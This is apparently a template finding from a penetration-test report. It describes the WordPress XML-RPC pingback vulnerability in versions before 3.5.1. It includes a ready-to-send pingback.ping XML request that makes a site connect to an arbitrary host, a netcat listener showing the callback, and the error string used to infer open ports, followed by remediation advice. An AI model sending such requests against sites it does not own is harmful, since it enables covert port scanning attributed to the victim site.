 ```yaml
---
category: "APP-VUL"
cvss: "5.8"
---
```

### WordPress XML-RPC Pingback Vulnerability
The WordPress XML-RPC interface available at the following URL{s||} can be abused to carry out port scans of external and internal networks. This vulnerability arises as versions of WordPress prior to 3.5.1 will attempt to resolve the source address of any pingbacks added via the XML-RPC interface, in order to verify that the address resolves to a valid pingback, and does not sufficiently restrict the protocols or port numbers used in the provided source.

An attacker can exploit this to map servers and available ports or to launch a port scan against a third party that would appear to originate from {==CLIENTNAME==}.

The following example shows a request that could be made using the XML-RPC interface to target the Dionach server at {==213.230.207.20==}:

POST http://SITE/xmlrpc.php

```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value>
<string>{==http://213.230.207.20/dntest?k=v==}</string>
</value>
</param>
<param>
<value>
<string>{==http://SITE/VALIDWORDPRESSPAGE==}</string>
</value>
</param>
</params>
</methodCall>
```

A netcat listener running on the Dionach server shows a successful connection attempt from the website host, as shown below:

```
# nc -v -l -p 80
<...>
connect to [{==213.230.207.20==}] from {==CLIENTSERVERNAME==} [{==CLIENTSERVERIP==}] 36032
GET {==/dntest?k=v==} HTTP/1.0
<...>
```

An attacker can then analyse the returned error codes, an example of which is should below, in order to determine whether a server is listening on the target host.

http://SITE/xmlrpc.php
```
<...>
<name>faultString</name>
<value><string>The source URL does not exist.</string></value>
<...>
```

Further information regarding this vulnerability is available from the following URL:

[https://www.acunetix.com/blog/web-security-zone/wordpress-pingback-vulnerability/]()
#### Impact: High
An attacker may exploit this issue to perform a port scan of third-party systems using this vulnerability; such attacks would appear to originate from {==CLIENTNAME==} and could impact on {==CLIENTNAME's==} reputation. Additionally, should the website hosting provider detect this form of abuse, they may consider suspending the website until the issue can be resolved.
#### Likelihood: Medium
This is a well-known vulnerability and there are tools freely available online which can be used to automate the process of port scanning a particular target. An attacker would need to be motivated to target {==CLIENTNAME==} in this manner.
#### Recommendation
Update WordPress to the latest version, as discussed in section {==XREF==}. Additionally, if the XML-RPC interface is not required consider disabling it (see section {==XREF==}).
